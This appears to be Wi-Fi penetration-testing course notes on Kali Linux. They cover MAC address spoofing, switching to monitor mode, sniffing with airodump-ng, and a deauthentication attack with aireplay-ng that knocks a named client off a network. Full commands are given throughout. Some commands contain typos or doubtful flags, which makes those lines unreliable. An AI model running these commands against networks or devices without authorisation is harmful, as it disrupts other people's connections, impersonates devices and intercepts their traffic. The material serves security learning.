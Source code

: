 # MAC Address:
- Media Access Control
	- Permanent
	- Physical
	- Unique
- Assigned by manufacturer.

## Why change the mac address?
- Increase anonymity.
- Impersonate other devives.
- Bypass filters.

If you execute below command in kali machine, then some results you will get.
```bash
inconfig
```
For every interfaces (like eth0, lo or wlan0), there is an option named **ether** which tells the mac address. If the network is connected, then also can see **inet** flag to that interface which is connected to the internet.

To change the mac address, simply execute the below command first to disable the interfaces. *wlan0* is that interface name which you want to change the mac address.

```bash
ifconfig wlan0 down
```
Now to change the mac address, execute

```bash
ifconfig wlan0 hw ether 00:11:22:33:44:55
```

You can change the mac address to any address, but make sure that the first 2 digits should always start with 0. After that, have to enable the interfaces

```bash
ifconfig wlan0 up
```
The mac address will revert back to the original one once restarts your computer because this mac address is changed in the memory, not in physical.

# Wireless Modes (Managed & Monitor)
To see the wireless interfaces, the command is used.

```bash
iwconfig
```
From the result, one of the interface Mode is **Managed**. It means that this is the default mode of all wireless devices and it also means that it only captures packets that has destination mac as the mac address of this device. We want that we want to able to capture all the packets that are within our range even if they are set to the router and even if they are set to another device. To do this, have to set the mode to the **monitor** mode. For that, first have to stop the interfaces.

```
ifconfig wlan0 down
```
Then for better result, execute
```
airmon-ng check kill
```
If you notice that, when the above command is executed, your wifi is turned off. Now change to the monitor mode. [Note: To restart the network, use following one of the commands, 1. "service network-manager restart" 2. "service NetworkManager restart" 3. "service avahi-daemon restart"]
```bash
iwconfig wlan0 mode monitor
```
And then turn on the interfaces by
```bash
ifconfig wlan0 up
```
Now if you execute **iwconfig**, you can notice that, the mode is changed to Monitor mode.

# Packet Sniffing Using AIRODUMP-NG
- Part of the aircrack-ng suit
- Airodump-ng is a packet sniffer
- Used to capture all packets within range
- Display detailed info about networks around us
- Connected clients ...etc

```bash
airodump-ng [MonitorModeInterface]
```
For that, first have to enable the monitor mode. Then execute below command, where have to pass that interface which you are converted to the monitor mode.
```bash
airodump-ng wlan0
```
After the executing, this will display all wireless networks and their information around me. This process will continue unless you quite qith ctrl + c.

# WIFI Bands:
- Decides the frequency range that can be used.
- Determines the channels that can be used.
- Clients need to support band used by router to communicate with it.
- Data can be sniffed from a certain band if the wireless adapter used supports that band.
- Most monnon Wifi bands are:
	- 'a' uses 5 Ghz frequency only.
	- 'b', 'g' both use 2.4 Ghz frequency only.
	- 'n' uses 5 and 2.4 Ghz
	- 'ac' uses frequencies lower than 6 Ghz

```bash
airodump-ng --band a wlan0
```
Also can pass multiple bands at a time.
```bash
airodump-ng --band abg wlan0
```

# Target Packet Sniffing
```bash
air0dump-ng --bssid F0:B4:D2:62:54:BF --channel 6 --write test wlan0
```
If you go to the directory where the test files are saved, you can see several files which names are started with test like "test-01.csv", "test-01.kismet.netxml", "test-01.cap", "test-01.kismet.csv". The record are captured in "test-01.cap" file. But if the encription technology "WPA2" is used to your router, then the data will be in encripted. If you execute in terminal
```bash
wireshark
```
this will open the application and if you open and select one packet from the .cap file, you will not get useful data.

# Deauthentication Attack:
- Disconnect any client from any network
	- Works on encrypted networks (WEP, WPA & WPA2)
	- No need to know the network key
	- No need to connect to the network

Use
```bash
aireplay-ng --deauth [#DeauthPackets] -a [NetworkMac] -c [TargetMac] [Interface]
```
An example could be
```bash
aireplay-ng --deauth 100000000 -a F0:B4:D2:62:54:BF -c 80:91:33:4E:7A:19 -D wlan0
```
-D is if the network uses the 5ghz frequency. Otherwise don't pass that. F0:B4:D2:62:54:BF is the router bssid address and 0:91:33:4E:7A:19 is the target machine mac address. Before executing the above command, first execute
```bash
airodump-ng --bssid F0:B4:D2:62:54:BF --channel 6 --write test wlan0
```
If you notice that, the network of the client is gone and you can't connect to that machile unless I quite the process in my kali linux terminal.